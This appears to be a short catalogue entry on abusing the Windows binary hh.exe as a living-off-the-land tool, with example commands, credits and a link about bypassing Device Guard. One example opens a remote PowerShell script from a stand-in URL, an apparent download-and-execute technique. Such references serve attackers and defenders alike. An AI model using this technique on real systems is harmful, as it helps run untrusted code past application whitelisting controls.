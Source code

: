 ## hh.exe

* Functions: Open Explorer, Download, Execute

```
HH.exe http://www.google.com      

HH.exe C:\  

HH.exe c:\windows\system32\calc.exe

HH.exe http://some.url/script.ps1
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe

Code sample:
* 

Resources:
* https://oddvar.moe/2017/08/13/bypassing-device-guard-umci-using-chm-cve-2017-8625/

Full path:
```
c:\windows\system32\hh.exe
c:\windows\sysWOW64\hh.exe
```

Notes:



 
